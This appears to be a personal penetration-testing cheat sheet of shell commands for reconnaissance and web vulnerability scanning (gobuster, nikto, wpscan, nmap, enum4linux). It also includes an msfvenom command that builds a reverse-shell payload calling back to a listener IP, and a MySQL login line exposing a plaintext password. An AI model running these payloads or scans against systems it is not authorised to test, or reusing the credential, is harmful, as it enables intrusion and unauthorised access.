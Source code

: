 ```bash

# Other tool: man socat ;)

# Other tool: Creating a Custom Reverse Shell
msfvenom -p linux/x64/shell_reverse_tcp - f elf LHOST=10.5.155.80 LPORT=4444 > shell

- bind shell: server waits for me to connect
- reverse shell: I am waiting for e command on the server to connect to my listener

Search for connected machines
shodan.io

Dark Web Monitoring
- flare.io https://flare.io/solutions/use-case/dark-web-monitoring/

# Find URLs/directories on hosts

- DirBuster (UI. check with /usr/share/wordlists/dirb/small.txt)
- CLI:
dirb https://mwager.de/ /usr/share/wordlists/dirb/small.txt -v

oder

gobuster dir --url https://mwager.de/ -w /usr/share/wordlists/dirb/small.txt
gobuster dir --url 10.5.22.8 -w /usr/share/wordlists/dirb/small.txt

# Burb Suite -> perform attacks on web applications
- TODO

mysql --host=10.5.134.178 --user=important_user --password=52991835a76dc17085dcfdf27159bc4a228d53fe91e695031704ff1a5e2a786b

# Nikto Web Scanner
# Scan web servers in search of vulnerabilities and common dangerous configurations
nikto -h https://mwager.de

# Fast and customisable vulnerability scanner based on simple YAML based DSL.
# https://github.com/projectdiscovery/nuclei/
nuclei

# skipfish
# Find vulnerabilities in web apps.
rm -rf /tmp/skip
touch new_dict.wl
skipfish -t 90 -i 90 -w 90 -f1000 -b f -o /tmp/skip -W ./new_dict.wl http://testphp.vulnweb.com

# Wapiti
# Find vulnerabilities in web apps.
wapiti  -v 1  -u http://testphp.vulnweb.com/ -f txt -o /tmp/wapiti --flush-session

# whatweb
# Get information from hosts: e.g. apache vX.X, jQuery vx.X, modernizr, IP adress etc...
whatweb -v mwager.de
whatweb -v 192.168.0.1/24

# Wordpress
wpscan --url http://wordpress-installation.com

# SMB STUFF - find samba shared network devices

nmap -p 139,445 192.168.2.120
sudo nbtscan -r 192.168.2.120
enum4linux -a 192.168.2.120
```